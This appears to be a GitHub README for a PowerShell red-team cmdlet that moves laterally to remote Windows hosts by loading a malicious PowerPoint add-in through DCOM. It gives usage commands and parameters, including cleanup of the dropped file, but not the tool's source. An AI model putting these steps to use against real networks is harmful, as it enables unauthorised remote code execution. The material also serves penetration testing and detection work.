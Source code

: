 # Invoke-DCOMPowerPointPivot
This cmdlet executes lateral movement through PowerPoint DCOM via malicious Add-in

## Usage
```
(MANDATORY PARAMETERS)
        PS C:\> Invoke-DCOMPowerPointPivot -Target "192.168.1.20" -AddinPath "c:\PowerPoint.ppa"

(OPTIONAL PARAMETERS)
        PS C:\> Invoke-DCOMPowerPointPivot -Target "192.168.1.20" -AddinPath "c:\PowerPoint.ppa" -DestPath "c:\Windows\Temp\NiceFile.ppam" -ExecWaitTime 10
```

## Parameters

- Target
  - IP or hostname of target
- AddInPath
  - Local path to the PowerPoint Add-in
- DestPath (Optional)
  - Destination of the PowerPoint Add-in on the target
- ExecWaitTime (Optional)
  - Number of seconds to wait before unloading the Add-In and cleaning up

